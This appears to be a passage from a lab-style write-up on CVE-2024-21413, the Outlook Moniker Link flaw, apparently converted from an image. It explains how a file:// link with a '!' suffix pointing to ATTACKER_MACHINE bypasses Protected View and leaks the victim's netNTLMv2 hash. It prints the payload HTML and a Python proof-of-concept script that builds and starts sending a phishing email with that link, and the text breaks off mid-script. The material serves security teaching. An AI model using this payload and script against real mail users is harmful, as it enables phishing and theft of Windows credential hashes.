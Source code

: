 ```html
<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>
```

The vulnerability here exists by modifying our hyperlink to include the`!` special character and some text in our Moniker Link which results in bypassing Outlookâ€™s Protected View. For example:`<a href="file://ATTACKER_IP/test!exploit>Click me</a>`.

```html
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```

We, as attackers, can provide a Moniker Link of this nature for the attack. Note the share does not need to exist on the remote device, as an authentication attempt will be attempted regardless, leading to the victim's Windows netNTLMv2 hash being sent to the attacker.

Remote Code Execution (RCE) is possible because Moniker Links uses the Component Object Model (COM) on Windows. However, explaining this is currently out of scope for this room, as there is no publicly released proof of concept for achieving RCE via this specific CVE.



# EXPLOITATION

## POC


For this attack, we will email our victim a Moniker Link similar to the one provided in the previous task. The objective, as the attacker, is to craft an email to the victim with a Moniker Link that bypasses Outlook's "Protected View", where the victimâ€™s client will attempt to load a file from our attacking machine, resulting in the victimâ€™s netNTLMv2 hash being captured.

But first, letâ€™s run through a PoC I have created (which is also available on [GitHub](https://github.com/CMNatic/CVE-2024-21413)).

```python
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
 <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

 </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
```